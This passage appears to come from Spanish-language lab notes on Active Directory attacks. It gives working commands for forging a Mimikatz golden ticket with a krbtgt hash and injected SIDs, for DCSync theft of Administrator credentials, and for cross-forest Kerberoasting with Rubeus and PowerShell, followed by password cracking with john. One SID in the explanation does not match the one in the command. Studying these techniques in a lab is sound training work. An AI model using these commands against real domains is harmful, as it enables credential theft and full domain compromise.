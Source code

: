 - Ahora podemos acceder a techcorp-dc como Administrator

```
ls \\techcorp-dc.techcorp.local\c$

Enter-PSSession techcorp-dc.techcorp.local
```

- Evite registros sospechosos utilizando el grupo Domain Controllers

```
Invoke-Mimikatz -Command '"kerberos::golden /user:us-dc$ /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:516 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /ptt"'
```


```
S-1-5-21-2578538781-2508153159-3419410681-516 - Controladores de dominio
S-1-5-9 - Controladores de Dominio de Empresa

Invoke-Mimikatz -Comando '"lsadump::dcsync /user:techcorp\Administrator /domain:techcorp.local"'
```
# Cross Forest Attacks 

## Kerberoast

Es posible ejecutar Kerberoast a través de la confianza del bosque

```
# Enumeración de cuentas Kerberoasteables
### PowerView
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}

### ActiveDirectory Module
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties 
ServicePrincipalName -Server $_.Name}
```

```
# Rubeus
## Solicitar el TGS para el usuario kerberoasteable "storagesvc" del dominio eu.local
C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt

## Cracking sobre el hash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt

# PowerShell
## Obtener TGS en memoria mediante PowerShell
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<ServicePrincipalName>"

Ejemplo: New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList MSSQLSvc/eu-file.eu.local@eu.local
```
